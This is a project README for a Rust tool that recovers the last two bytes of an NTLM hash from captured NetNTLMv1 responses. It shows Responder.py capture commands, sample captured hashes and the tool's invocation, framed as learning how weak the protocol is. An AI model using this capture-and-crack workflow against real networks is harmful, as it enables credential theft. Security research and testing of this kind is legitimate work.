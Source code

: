 # CT3 To NTLM

This tool is based on the work of previous people :
- Evil Mog : https://www.youtube.com/watch?v=qwTTaUkKH5w
- Moxie Marlinspike : https://moxie.org/

This is a simple re-implementation of the ct3-to-ntlm.bin hashcat-utils binary in rust.

There is also a first proof of concept in python if you want to use it, but I dont give any support on it, no requirements.txt whatsoever.

## Install/build
Download latest releases or build it with rust :
```shell
git clone https://github.com/almandin/ct3-to-ntlm
cd ct3-to-ntlm
cargo build --release
mv target/release/ct3-to-ntlm $anywhere-in-you-PATH
```

## What it does
Use Responder.py and get some NetNTLMv1 hashes :

```shell
#> python Responder.py -I eth0 --lm -fwrp
...
[SMB] NTLMv1 Client   : 184.64.60.62
[SMB] NTLMv1 Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1 Hash     : hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
...

[SMB] NTLMv1-SSP Client   : 184.64.60.62
[SMB] NTLMv1-SSP Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1-SSP Hash     : hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
...
```

Copy the NTLMv1 or the NTLMv1-SSP hash as the argument of this tool :
```shell
$> ./ct3-to-ntlm 'hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788'
```
You get the last two bytes of the NTLM hash of the account used for the NetNTLM authentication : `586c` with the example.

# Why that
Wanted to learn how bad is NetNTLMv1 and how to attack it.
Because I also plan to look at rainbow tables generation for netntlmv1 without SSP.